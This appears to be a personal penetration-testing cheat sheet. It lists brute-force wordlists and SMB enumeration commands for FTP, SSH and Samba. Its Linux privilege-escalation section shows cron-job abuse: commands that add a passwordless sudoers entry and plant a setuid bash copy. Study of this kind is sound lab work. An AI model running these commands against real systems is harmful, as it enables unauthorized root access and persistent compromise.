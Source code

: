 ### FTP
>[!reminder] ProFTPD 1.3.3c is vulnerable to RCE

```bash
anon  logins
> anonymous: 

Bruteforce
/usr/sh3are/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

### SSH
```bash
bruteforce, get creds, login, enumerate.
```

### SAMBA
```bash
ATTACK CHAIN
Bruteforce
> hydra

SMBMAP
> smbmap -H $IP -u user -p pass

SMBCLIENT
> smbclient //$IP/$SHARE -U $USER

Enum4linux
> enum4linux -a -u $USER -p $PASS
```

****

## Linux Privilege Escalation
>Kernel Exploits
- linux-exploit-suggester

>misconfigured cron jobs

linux implments task scheduling via the cron utility
cron is a time-based service that runs apps, scripts and other commands repeatedly on a specified schedule these are known as cron jobs
- cronjobs can be run as any user but the one of interest is the one being run as root.
```bash
view crontab set by a user we are running as :-
$ crontab -l

lets say we wanted to find any scrpts or files on the host that referenced or included a "root_file" within
$ grep -rnw /usr -e "/home/user/root_file "

say we found a writable shell script owned by root and runs with cron, we can add ourselves to sudoers in the file by adding this line 
$ printf '#!/bin/bash\necho "rami ALL=NOPASSWD:ALL" >> /etc/sudoers' > $WRITABLEFILE.sh

OR JUST
> echo "cp -p /bin/bash /tmp/rami && chmod +s /tmp/rami" >> /usr/local/share/copy.sh
```
